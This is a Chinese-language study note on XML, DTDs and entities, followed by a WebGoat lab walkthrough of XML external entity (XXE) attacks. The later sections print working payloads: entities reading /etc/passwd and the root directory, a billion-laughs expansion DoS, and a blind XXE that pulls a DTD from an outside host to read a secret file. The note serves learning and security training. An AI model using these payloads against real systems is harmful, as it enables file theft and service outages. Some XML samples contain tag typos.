




# XML  

XML指可扩展标记语言（eXtensible Markup Language），被设计用来传输和存储数据，不用于表现和展示数据，HTML 则用来表现数据。

- XML 指可扩展标记语言（EXtensible Markup Language）。  
- XML 是一种很像HTML的标记语言。  
- XML 的设计宗旨是传输数据，而不是显示数据。  
- XML 标签没有被预定义。您需要自行定义标签。  
- XML 被设计为具有自我描述性。  
- XML 是 W3C 的推荐标准。  

XML 是独立于软件和硬件的信息传输工具。  

## 树结构  
XML文件中有一个根标签，是除他自身以外所有标签的祖先，并且内部标签的嵌套关系要正确  

## 语法  

1. XML声明  
一个声明的例子  
```xml
<?xml version="1.0" encoding="utf-8"?>  
```  
指定了xml的版本和编码方式  
- xml的声明要么写在第一行，要么就不写，即使是注释也不能写在声明的之前  

2. 根元素  

一定要有一个标签作为根元素，即要保证xml的树结构  

3. 标签  

- 双标签  
```xml  
<ep>text</ep>
```  

- 单标签  
```xml
<ep param="v" />  
```

param是标签的属性，"V"是值，且标签属性的值必须使用引号，如果属性的值仅中有单引号，那么用双引号，反之用单引号，如果二者都用，要使用实体，关于实体的内容在后面  

- 大小写区分  


4. 注释  
```xml
<!-- comment -->  
```  

## DTD  
DTD（Document Type Definition，文档类型定义）是XML文档的“规则手册”，用于定义XML文档的结构、元素、属性、实体等合法组成规则。它类似于编程中的“语法规范”，确保XML符合预期的格式和逻辑。  

### DTD的作用  
1. 定义合法结构  
规定 XML 中允许出现哪些元素、属性、子元素及其嵌套关系。  

2. 约束数据类型  
定义元素内容或属性的数据类型（如文本、数值等）。  

3. 声明实体  
定义内部或外部实体（如 <!ENTITY author "张三">）。  

4. 验证文档有效性
解析器可通过 DTD 检查 XML 是否符合规则（严格模式）。  


### DTD语法   

DTD结构如下  
```xml  

<!DOCTYPE[
  定义  
]>
```

1. 元素定义  
```
<!ELEMENT 元素名 内容模型>  
```  
- 内容模型  
  - 子元素列表：（A，B，C，）元素必须按顺序包含A,B，C  

  - 纯文本内容：（#PCDAT）元素只能包含文本，而不能嵌套子元素  

  - 混合内容：（#PCDATA | node1 | node2），可以同时包含文本和子元素，语法有严格限制  
    ```xml  
    <!ELEMENT 元素名 (#PCDATA | 子元素1 | 子元素2)*>
    ```  
    必须使用*修饰符，必须用|分隔元素  
  
  - 空元素：EMPTY 元素不能包含内容  

  - 任意内容：ANY 元素内部可以包含任意内容  

- 子元素列表  
  - (A,B,C): 严格按照顺序全部包含  
  - `(A B C): 任选一  
  - (A?): 包含1次或0次  
  - (A*): 出现任意次  
  - (A+): 至少出现一次

因为xml文件中必须有根节点，DTD中也要给出根节点的相关定义  
2. 属性定义  
```  
<!ATTLIST 元素名
  属性名 属性类型 默认规则
>
```  
属性可以先于对应元素定义，与顺序无关，但必须要定义元素  

- 属性类型  
  - CDATA: 文本字符串（默认）  
  - ID ： 唯一标识符  
  - IDREF(s):引用其他元素ID，多个用逗号分隔  
  - `(A,B)`: 枚举值，限定该值为A,B之一  
  - ENTITY(s): 引用已定义的实体，多个逗号分隔  
  - NMTOKEN(s):合法名称字符串  

- 规则
  - #REQUIRED: 属性必须存在  
  - #IMPLIED: 可选属性  
  - #FIXED "v":固定属性，值为"v"  
  - "v" : 指定属性值默认值

  多个规则用空格分开,属性值必须使用引号    

  ```  
  <!ATTLIST 用户
  编号 ID #REQUIRED
  性别 (男|女) "男"      <!-- 默认值为“男” -->
  角色 CDATA #IMPLIED    <!-- 可选属性 -->
  头像 ENTITY #FIXED "默认头像"
  >
  ```

3. 实体定义  
```
<!ENTITY 实体名 "实体内容">          <!-- 内部实体 -->
<!ENTITY 实体名 SYSTEM "资源路径">  <!-- 外部实体 -->
```  
例如  
```xml
<!-- 内部实体 -->
<!ENTITY company "某科技有限公司">

<!-- 外部实体 -->
<!ENTITY header SYSTEM "header.xml">
<!ENTITY logo SYSTEM "https://example.com/logo.png" NDATA png>  
```  
- NDATA  
xml中实体分为解析实体和未解析实体，解析实体是指被定义的能够被xml解析器解析的实体，未解析实体指图片等数据，xml不会解析并交给其他程序处理，NDATA可以指定数据类型，后面的png是在符号声明中被定义  

4. 符号声明  
定义非 XML 数据的格式（如图像、视频），通常与外部实体配合使用  
```  
<!NOTATION 符号名 SYSTEM "标识符">  
```  
如  
```
<!NOTATION png SYSTEM "image/png">
```  
将png定义为png格式的图片  


### DTD的格式  

- 内部DTD  

直接嵌入xml文件中  

如  
```xml  
<?xml version="1.0"?>
<!DOCTYPE root [  <!-- DTD 开始 -->
  <!ELEMENT root (node1, node2)>  <!-- 定义元素结构 -->
  <!ELEMENT node1 (#PCDATA)>          <!-- 定义元素内容为文本 -->
  <!ATTLIST node2 a CDATA #REQUIRED>  <!-- 定义属性 -->
]>
<rootroot>
  <node1>text</node1>
  <node2 a="v"></node2>
</root>
```

- 外部DTD  
DTD内容保存在.dtd文件中，然后在xml中引入.如在引入rules.dtd文件方式  
```  
<!DOCTYPE root SYSTEM "rules.dtd">  
```  


## 实体  

实体可以分为5类，预定义实体，内部实体，外部实体和参数实体，参数实体以“%”开头，其他以“&”开头，均以“;”结尾，中间是实体名，用于表示数据占位或引用，类似于编程中的变量  

- 预定义实体（Predefined Entities）

在XML内置的五个特殊字符实体  

```  

字符	实体名称	示例
<	&lt;	<data>&lt;</data>
>	&gt;	<data>&gt;</data>
&	&amp;	<data>&amp;</data>
"	&quot;	<attr="&quot;"
'	&apos;	
```  

- 内部实体（Internal Entities）  

在DTD中定义的实体，只在当前文档使用  
```
<!DOCTYPE example [
  <!ENTITY author "张三">  <!-- 定义实体 -->
]>
<book>作者：&author;</book>  <!-- 使用实体 -->
```  
在当前文档中定义了一个实体，实体名是author，值是“张三”，仅在同一文件下可以使用，后面引用了该实体  

- 外部实体（External Entities）  

引用外部资源（文件、URL等），可能引发安全漏洞（XXE攻击）  
```xml
<!DOCTYPE example [
  <!ENTITY secret SYSTEM "file:///etc/passwd">  <!-- 引用本地文件 -->
]>
<data>&secret;</data>
```
在DYD中定义了外部实体，然后再<data>标签中使用了该实体  

- 参数实体（Parameter Entities）  
专用于 DTD 内部的实体（以 % 开头），通常用于模块化 DTD 定义  
```  xml
<!DOCTYPE example [
  <!ENTITY % common-defs SYSTEM "common.dtd">  <!-- 引用外部DTD -->
  %common-defs;  <!-- 展开引用的DTD内容 -->
]>  
```  

# XXE  
XML 外部实体攻击（XXE，XML External Entity）的实现原理基于 XML 解析器对 DTD（文档类型定义）和外部实体的不当处理。攻击者通过构造恶意 XML 文档，诱导解析器加载外部资源（如本地文件、远程 URL），从而窃取数据或触发其他攻击行为

## 一个例子  

```xml  
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE author [
  <!ENTITY js SYSTEM "file:///etc/passwd">
]>
<author>&js;</author>  
```  
在DTD中定义了js，指向了一个路径下的文件，如果解析器运行解析外部实体并将该文件返回，那么用户就可以接受到passwd的内容  

## 4题  
题目要求评论该图片，并尝试列出文件根目录  
  

1. 发送一条评论，抓包  
  
请求头使用了xml格式，请求体内容如下  
```xml  
<?xml version="1.0"?><comment>  <text>hello</text></comment>  
```  

2. 可以使用外部实体，指向根目录，然后添加在text标签中  
定义外部实体  
```  xml
<!DOCTYPE coment[<!ENTITY rt SYSTEM "file:///">]>
```  

所以新的请求体为  
```  xml  
<?xml version="1.0"?><!DOCTYPE coment[<!ENTITY rt SYSTEM "file:///">]><comment>  <text>&rt;</text></comment>
```  
修改后发送  

3. 
  
成功  

- 外部实体指向路径为"file:///",file://是一种url协议，他明确的指示了要访问本地资源，这里可以直接使用根目录"/",在某些情况下二者会有区别，比如windows环境可能不识别'/'，但是可以识别file:///。  

## 7题  

同样的情景。抓包，发现是以json格式发送，把content-type修改为xml格式，然后把请求头修改，发送就可以了，请求内容一模一样  
  


## XXE DOS attack  

- DoS(Denial of Service)攻击（拒绝服务攻击）,是一种通过耗尽目标系统资源（如带宽、计算能力、内存等）使其无法正常提供服务的网络攻击行为。攻击者通过发送大量恶意请求或利用协议漏洞，导致合法用户无法访问目标服务器、网站或网络设备。  

- XXE DOS,通常是在定义实体时使用嵌套的方式定义，使得在解析实体时需要消耗大量资源，下面是一个例子  
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>  
```  
实体lol1包含多个lol，lol2又包含多个lol1，呈指数增长，解析实体lol9需要占用大量资源  

### Blind XXE  


```xml
<?xml version="1.0"?>
  <!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://192.168.88.1:9090/files/webgoat/attack.dtd">
  %remote;
]>
<comment><text>&web;</text></coment>
```


<!ENTITY web SYSTEM '/home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>


<?xml version="1.0"?>
  <!DOCTYPE root [
    <!ENTITY web SYSTEM '/home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>
]>
<comment><text>&web;</text></coment>


